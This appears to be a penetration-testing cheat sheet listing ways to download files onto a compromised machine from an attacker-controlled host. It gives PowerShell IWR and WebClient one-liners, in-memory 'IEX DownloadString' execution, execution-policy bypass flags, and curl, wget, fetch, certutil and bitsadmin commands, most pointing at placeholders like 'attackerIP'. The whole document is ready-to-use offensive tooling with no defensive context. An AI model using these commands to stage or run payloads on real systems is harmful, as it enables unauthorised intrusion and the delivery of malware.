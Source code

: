 ```
powershell -c IWR http://10.10.10.10/filename.exe -o filename.exe
```

Alternatively, download with PowerShell Invoke-Expression DownloadFile:

```
powershell -c IEX(New-Object Net.WebClient).DownloadFile('http://10.10.10.10:8080/filename', 'output_filename')
```

Alternatively, download with PowerShell Invoke-Expression DownloadString (runs on memory):

```
powershell -c "IEX (New-Object Net.WebClient).DownloadString('http://attackerIP/file.ps1')"
```

Alternatively, download with PowerShell Invoke-WebRequest with BasicParsing:

```
powershell -c "IEX (IWR http://attackerIP/file.ps1 -UseBasicParsing)"
```

Alternatively, download with PowerShell with Execution Policy Bypass implemented:

```
powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://ip/file')"
powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadFile('http://ip/file','C:\Users\Public\Downloads\file')"
powershell.exe -nop -ep bypass -c "IWR -URI 'http://ip/file' -Outfile '/path/to/file'"
```

Alternatively, download with curl:

```
curl http://10.10.10.10/filename -o filename
```

Alternatively, download with wget:

```
wget http://10.10.10.10 -O filename
```

Alternatively, if you're in OpenBSD you can use fetch:

```
fetch http://attackerip/file
```

Alternatively, download with certutil:

```
certutil -urlcache -split -f “http://10.10.10.10:8080/file” output_file

certutil.exe -urlcache -f "http://attackerIP/file.exe" file.exe
```

Alternatively, download with bitsadmin:

```
bitsadmin /transfer job /download /priority high http://10.10.10.10/file output_file
```
